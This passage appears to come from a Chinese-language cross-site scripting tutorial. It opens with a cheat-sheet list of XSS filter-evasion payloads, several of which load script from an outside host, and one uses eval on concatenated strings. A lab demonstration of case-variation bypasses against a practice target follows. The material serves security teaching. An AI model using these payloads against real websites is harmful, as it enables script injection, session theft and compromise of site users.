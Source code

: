 ```html
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-
image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```



## 手动演示

### 大小写

```
<Script>alert("xss")</Script>
<SCRIPT>alert("xss")</SCRIPT>
<SCrIpT>alert("xss")</SCrIpT>
```

经过浏览器的URL编码之后，可以得到其中的语句如下

```
http://target_sys.com/xss/xss04.php?name=huan%3CScript%3Ealert(%22xss%22)%3C/Script%3E
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822105607.png)



### 属性多余

进入另一个xss靶场，按照常规攻击方法尝试后，得到结果如下

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822110305.png)

只留下了`alert("xss")`，也就是说，`<Script></Script>`标签都被过滤了。
